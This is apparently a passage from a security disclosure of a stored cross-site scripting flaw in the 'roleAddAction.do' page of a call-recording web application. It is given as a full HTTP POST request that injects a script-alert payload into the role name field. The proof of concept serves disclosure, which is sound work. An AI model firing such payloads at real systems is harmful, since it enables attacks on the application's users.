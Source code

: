 
### XSS(3) - Stored XSS in “/callrec/roleAddAction.do” page

Request:
```
POST /callrec/roleAddAction.do HTTP/1.1
Host: xxx.xxxxx.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://xxx.xxxxx.net/callrec/roleAddAction.do
Content-Type: application/x-www-form-urlencoded
Content-Length: 385
Cookie: JSESSIONID=DD8E62B3FC844E4EFAA01439E6194493; m=2258:Y2FsbHJlYzpjYWxscmVj
Connection: close
Upgrade-Insecure-Requests: 1

org.apache.struts.taglib.html.TOKEN=7e772bb6a1e21d529fe4fa86010b5b62&userId=5&dispatch=add&viewRoleId=3&name=<script>alert("XSSName")</script>&roleParentId=3&number=bbbbbbbbbbbbb&actionId=9&actionId=11&actionId=8&actionId=7&actionId=10&actionId=4&actionId=6&actionId=1&actionId=16&viewId=9%7C11%7C8%7C7%7C10%7C4%7C6%7C1%7C16%7C&description=&value%28filter_1%29=-1&value%28conj_1%29=END
```
![](Zoom-XSS(3).png)
